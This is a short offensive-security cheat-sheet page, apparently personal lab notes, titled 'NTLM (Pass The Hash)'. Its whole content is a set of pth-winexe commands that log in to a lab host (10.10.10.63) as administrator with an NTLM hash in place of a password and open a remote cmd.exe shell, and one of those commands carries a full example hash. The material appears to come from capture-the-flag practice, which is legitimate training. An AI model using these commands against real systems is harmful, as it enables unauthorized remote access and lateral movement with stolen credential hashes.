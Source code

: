# NTLM \(Pass The Hash\)

```bash
pth-winexe -U administrator //10.10.10.63 cmd.exe
pth-winexe -U jenkins/administrator //10.10.10.63 cmd.exe

# When prompted use ntlm hash
# eg. hash = aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00

pth-winexe -U jenkins/administrator%aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 //10.10.10.63 cmd.exe
```

![](../.gitbook/assets/image%20%2839%29.png)

